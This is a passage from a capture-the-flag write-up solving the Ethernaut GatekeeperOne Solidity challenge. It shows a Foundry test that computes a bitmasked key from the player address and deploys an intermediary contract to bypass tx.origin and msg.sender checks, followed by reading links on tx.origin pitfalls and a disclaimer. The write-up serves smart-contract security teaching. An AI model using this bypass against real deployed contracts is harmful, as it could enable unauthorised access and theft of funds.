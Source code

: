 Now we can call the test function and solve it

```solidity
function exploitLevel() internal override {
	// calculate the key needed to solve the third gate
    bytes8 key = bytes8(uint64(uint160(address(player)))) & 0xFFFFFFFF0000FFFF;

    // deploy the middle man contract to make `msg.sender != tx.origin`
    Exploiter exploiter = new Exploiter(level);

    vm.prank(player, player);

    // call the exploit function to solve the challenge
    exploiter.exploit(key);

    // Check we have solved the challenge
    assertEq(level.entrant(), player);
}
```

You can read the full solution of the challenge opening [GatekeeperOne.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/GatekeeperOne.t.sol)

## Further reading

- [Solidity Docs: tx.origin and msg.sender, gasleft() as Global Variables](https://docs.soliditylang.org/en/latest/cheatsheet.html?#global-variables)
- [Solidity Docs: never use tx.origin for authorization](https://docs.soliditylang.org/en/latest/security-considerations.html#tx-origin)
- [Consensys Ethereum Smart Contract Best Practices - Avoid using tx.origin](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)
- [SigmaPrime - tx.origin](https://github.com/sigp/solidity-security-blog#tx-origin)
- [Solidity Docs: Conversions between Elementary Types](https://docs.soliditylang.org/en/latest/types.html#conversions-between-elementary-types)
- [Solidity Docs: Conversions between Literals and Elementary Types](https://docs.soliditylang.org/en/latest/types.html#conversions-between-literals-and-elementary-types)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
